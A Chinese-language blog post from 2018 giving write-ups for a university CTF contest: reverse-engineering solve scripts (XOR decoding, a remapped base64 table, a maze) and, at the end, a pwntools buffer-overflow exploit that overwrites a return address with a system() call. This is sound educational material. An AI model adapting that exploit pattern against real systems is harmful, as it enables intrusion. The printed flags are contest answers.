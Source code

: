 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      西电网信杯线下wp 		 # 标题 
subtitle:   西电网信杯               # 副标题
date:       2018-07-15 				# 时间
author:     Mr.R 					# 作者
# header-img: img/post-bg-2015.jpg 	# 这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								# 标签
    - CTF
---
```


# 西电网信杯线下赛题目wp
>今年师傅们出题挺好的 就是 题目分布有点倾斜 对于专攻某些方面的dalao们不太友好

## RE
>[题目包](../files/xdctf_re.zip)
   * RE1  
   送分题目 使用od直接nop掉判断即可
   * RE2  
   首先丢进ida
   ![](https://s1.ax1x.com/2018/07/26/PN1Zxs.png)
   根据分析,我们可以得出flag格式:  
   flag{x*32}  
   我们可以注意到v11是ebp-13h,v11是'}'  
   那么src的开头为ebp-33h,则src的长度就是0x33-0x13 --> 32位
   接下来讲src赋给了dst
   跟进接下来的函数
   ![](https://s1.ax1x.com/2018/07/27/PUmJeS.png)
   我们可以发现他实际就是将dst与另一个数组中的值进行了异或  
   继续跟进，
   ![](https://s1.ax1x.com/2018/07/27/PUmwzq.png)
   发现实际就是对v7数组进行赋值,最后再用v7进行比对,那么我们很容易写出程序  
   ```python
str1 = "23gjf13au98hk3a1090zp8qjs41h39jp"
add = [0x04,0x0F,0x0B,0x1E,0x0E,0x14,0x1F,0x09,0x17,0x02,0x19,0x1C,0x12,0x10,0x00,0x08,0x11,0x01,0x15,0x03,0x0A,0x1D,0x0C,0x16,0x18,0x0D,0x1B,0x05,0x07,0x06,0x13,0x1A]
str2 = ''
dict1 = [0x53,0x45,0x5C,0x1E,0x50,0x13,0x2F,0x78,0x04,0x53,0x58,0x4A,0x43,0x01,0x41,0x2A,0x08,0x40,0x67,0x2F,0x0C,0x4A,0x12,0x2E,0x41,0x6C,0x05,0x54,0x40,0x12,0x5B,0x4F]
flag = 'flag{'
for i in range(len(str1)):
    str2 += chr(ord(str1[add[i]]))
for i in range(len(str2)):
    flag += chr( ord(str2[i])^dict1[i] )
flag += '}'
print flag
   ```
   得到flag  
   >flag{5t4t1c_An4lys1s_1s_E4sy_2_me!!!~}  

* RE3  
    ![](https://s1.ax1x.com/2018/07/27/PUnVlq.png)
    看到这两个字符串，我们就要大胆的猜测是存在base64和迷宫  
    将下面一串字符重新排列之后  
    ![](https://s1.ax1x.com/2018/07/27/PUnNnK.png)  
    再分析代码
    ![](https://s1.ax1x.com/2018/07/27/PUnwAe.png)  
    ```
    2 -> down  
    1 -> up  
    3 -> left  
    4 -> right  
    ```
    我们可以得出在base64前的字符  
    >222441144222    

    同时，我们发现他的base64编码表是有替换的，于是可得出解密程序:  
```python  
from base64 import b64encode
import string

s = "222441144222"
list1 = "0123456789ABCDEabcdefghijklFGHIJKLMNOPQRSTUVWXYZmnopqrstuvwxyz+="
list2 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
str1 = b64encode(s)
flag = ''
for i in str1:
    num = list2.index(i)
    flag += list1[num]
print flag
```  


>flag:CN8oD3bnCebqCN8o  
* Mobile  
    也是一个送分题....直接dex2jar就可以获得源码  
    很容易得知是rsa加密,且私钥通过解密可知
```python
f = open("key.txt","r")
key = f.read()
f.close()
key1 = ''
for i in range(len(key)):
    if(i % 2 == 0):
        temp = ord(key[i])+2
    else:
        temp = ord(key[i])-1
    key1 += chr(temp)
print key1
```
根据密文与私钥即可解密获得flag

## pwn
* pwn1
又是一道送分题  
![](https://s1.ax1x.com/2018/07/27/PUungI.png)  
![](https://s1.ax1x.com/2018/07/27/PUuuvt.png)  
![](https://s1.ax1x.com/2018/07/27/PUuMKP.png)  
很显然可以直接将ret覆盖成system调用地址
```python
from pwn import *
s = process("./ez_pwn")
system = 0x04007A1
s.sendline("5438")
payload = 'A'*0x20+p64(1)+p64(system)
print payload
s.sendline(payload)
s.interactive()
```
